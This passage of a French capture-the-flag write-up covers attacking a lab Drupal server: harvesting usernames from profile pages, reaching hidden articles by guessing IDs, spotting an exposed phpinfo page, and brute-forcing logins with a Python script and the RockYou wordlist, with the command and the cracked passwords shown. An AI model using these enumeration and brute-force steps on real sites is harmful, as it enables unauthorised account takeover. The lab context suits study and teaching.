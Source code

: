 On obtient une liste d'utilisateur mais elle n'est pas forcément appropriée pour une attaque brute-force : on dispose des prénoms et non des logins.  

Sur la page /profile des liens vers les différents profils avec les adresses emails. Il suffit de récupérer cela en retirant le *@localhost.localdomain* final.  

```plain
bdio
dhart
gconnor
gprune
hplink
jgrimes
jstone
jharraway
jgoldman
jalderman
jingersol
mswanson
sloreman
sholden
shunter
spinkton
sswiney
tmaloney
xbruce
```

A noter que sur le *Drupal* on peut trouver des articles que l'on ne voit pas normalement mais qui restent accessibles si on devine l'ID de l'article.  

Ainsi sur /comment/reply/28 on trouve #flag#57dbe55b42b307fb4115146d239955d0.  

A /phpinfo.php il y a un phpinfo() avec #flag#550e1bafe077ff0b0b67f4e32f29d751.  

Tout ça ne nous avance pas vraiment. Finalement j'ai trouvé [un article](http://www.madirish.net/408) sur le site de *MadIrish* (ben tiens) où l'on peut trouver un script Python de brute-force de comptes *Drupal*.  

Le script est un peu buggé et peu performant. Je n'ai pas pris la peine de le réécrire mais vous devriez au moins ajouter deux break sans quoi le script continue de brute-forcer un compte même s'il vient de trouver le mot de passe !  

Après avoir testé une petite wordlist pour les mots de passe j'ai utilisé celle de *RockYou* que *MadIrish* semble utiliser pour ses challenges.  

```plain
$ python drupal_bruterforce.py --target=http://192.168.1.60/ --userlist=users.txt --wordlist=rockyou.txt  --version=6
Please wait, working...
Drupal 6
Cracking ... admin
admin:football123
barbara:passw0rd
```
